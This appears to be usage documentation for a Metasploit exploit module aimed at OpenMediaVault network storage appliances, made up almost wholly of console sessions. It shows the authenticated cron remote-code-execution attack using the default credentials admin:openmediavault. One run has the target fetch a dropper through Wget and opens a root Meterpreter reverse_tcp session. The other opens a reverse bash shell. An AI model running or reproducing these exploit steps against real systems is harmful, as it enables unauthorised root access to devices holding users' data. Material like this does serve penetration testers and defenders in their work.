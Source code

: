 ```msf
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux openmediavault 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux
exit
```
### openmediavault_7.0-32-amd64.iso appliance Linux Dropper -  linux/x64/meterpreter/reverse_tcp
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set target 1
target => 1
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/cYSPpwJI3FXafxL
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Client 192.168.201.6 (Wget/1.21.3) requested /cYSPpwJI3FXafxL
[*] Sending payload to 192.168.201.6 (Wget/1.21.3)
[*] Sending stage (3045380 bytes) to 192.168.201.6
[+] Cron payload entry successfully removed.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.6:44398) at 2024-07-03 12:53:49 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : openmediavault.local
OS           : Debian 12.5 (Linux 6.1.0-18-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4 Unix command - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set target 0
target => 0
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 8 opened (192.168.201.8:4444 -> 192.168.201.10:50292) at 2024-07-01 20:14:07 +0000

```